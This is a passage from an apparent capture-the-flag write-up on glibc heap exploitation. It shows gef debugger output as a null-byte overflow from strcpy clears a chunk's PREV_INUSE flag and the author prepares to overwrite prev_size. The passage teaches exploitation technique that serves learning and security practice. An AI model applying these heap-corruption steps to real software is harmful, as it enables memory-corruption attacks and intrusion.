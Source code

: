 Now, doing allocation and the deletion of the chunks accordingly, since the `strcpy` will append the `\0` to the adjancent chunk and the continual deletion and the allocation of the chunks as the size is same as of `0x70`, for every allocation it'll just return the chunk from the `bin[5]`, this will result in the `PREV_INUSE` flag of the adjacent chunk being overwritten.

```r
gef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
Tcachebins[idx=5, size=0x70] count=1  ←  Chunk(addr=0x555555757770, size=0x70, flags=) 
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555757250, bk=0x555555757250
 →   Chunk(addr=0x555555757260, size=0x510, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/10xg  0x0000555555554000 + 0x202060
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x00005555557577e0	0x0000555555757de0
gef➤  x/2xg 0x00005555557577e0 - 0x10
0x5555557577d0:	0x0000000000000000	0x0000000000000600
gef➤  heap chunk 0x00005555557577e0
Chunk(addr=0x5555557577e0, size=0x600, flags=)
Chunk size: 1536 (0x600)
Usable size: 1528 (0x5f8)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: Off
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off

gef➤  
```

Now, as you can see the `heap_list` is at the address `0x555555756060` which have the chunk `0x00005555557577e0` at the index 2, seeing the `PREV_INUSE` flag for that chunk we see that it is cleared. Now, to work on with this, we will overwrite the `prev_size` for the `chunk_2`, what we will do is allocate a chunk of size `0x68` such that it'll be returned by the `tcache` and we will overwrite the adjacent chunk's i.e. `chunk_2`'s `prev_size`.
